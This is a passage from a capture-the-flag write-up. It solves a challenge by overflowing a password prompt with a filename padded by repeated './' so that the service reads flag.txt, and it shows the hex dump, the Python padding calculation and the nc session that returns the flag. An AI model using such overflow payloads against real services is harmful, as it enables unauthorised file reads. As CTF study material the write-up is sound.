```
0x00400c58  48ba 3932 6137 3564 3562 4889 5008 48be  H.92a75d5bH.P.H.
0x00400c68  6435 3661 3665 3761 4889 7010 48b9 6637  d56a6e7aH.p.H.f7
0x00400c78  3236 3132 3763 4889 4818 c740 202e 6461  26127cH.H..@ .da
0x00400c88  74c6 4024 00eb 2948 8d45 d048 ba66 6c61  t.@$..)H.E.H.fla
0x00400c98  672e 7478 7448 8910 c640 0800 bfb0 0f40  g.txtH...@.....@
```

so we see there our dat files and then lookie there in the final two lines!! flag.txt... that must be our flag filename.. but how do we make our flag filename `0x24` characters long?!

this was where some of my experience in the past with web path traversal attacks came in handy.. i knew that you could precede any filename with a series of '/'s and if it the file happened to be in the root of the filesystem it would work, that was not the case with this challenge, i tried this and it said the record was not found. so i assumed it must be in the current working directory just as the rest of the records were. that's when it hit me! we can simply precede our filename with a series of './'s and it would also work! assuming that the length of 'flag.txt' minus `0x24` was a number divisble by two! which it was:

```
>>> 0x24
36
>>> 36 - len('flag.txt')
28
>>> 28/2
14
>>> print './' * 14
././././././././././././././
>>> len('./' * 14) 
28
```

and my payload finally worked!

```
$ nc 128.199.224.175 13000 
Enter password to authentic yourself : kaiokenx20XXXXXX././././././././././././././flag.txt
Enter case number: 

         1) Application_1
         2) Application_2
         3) Application_3
         4) Application_4
         5) Application_5
         6) Application_6
         7) Flag

         Enter choice :- 0

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

The flag is :- pctf{bUff3r-0v3Rfl0wS`4r3.alw4ys-4_cl4SsiC}
�2

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
